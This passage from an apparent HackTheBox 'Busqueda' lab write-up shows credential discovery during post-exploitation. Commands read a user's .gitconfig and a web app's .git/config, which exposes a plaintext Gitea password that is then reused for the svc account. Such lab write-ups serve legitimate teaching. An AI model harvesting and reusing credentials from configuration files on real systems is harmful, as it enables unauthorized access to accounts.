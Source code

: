 
- global git config -> discover a credential: `cody:jh1usoih2bkjaspwe92`
  - able to login Gitea
  - password of svc user

```console
svc@busqueda:~$ cat .gitconfig
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
svc@busqueda:~$ git config --global --list
WARNING: terminal is not fully functional
Press RETURN to continue
user.email=cody@searcher.htb
user.name=cody
core.hookspath=no-hooks
------------------------------------------------------------------------
svc@busqueda:/var/www/app/.git$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

![image-20240305032845064](./Busqueda.assets/image-20240305032845064.png)
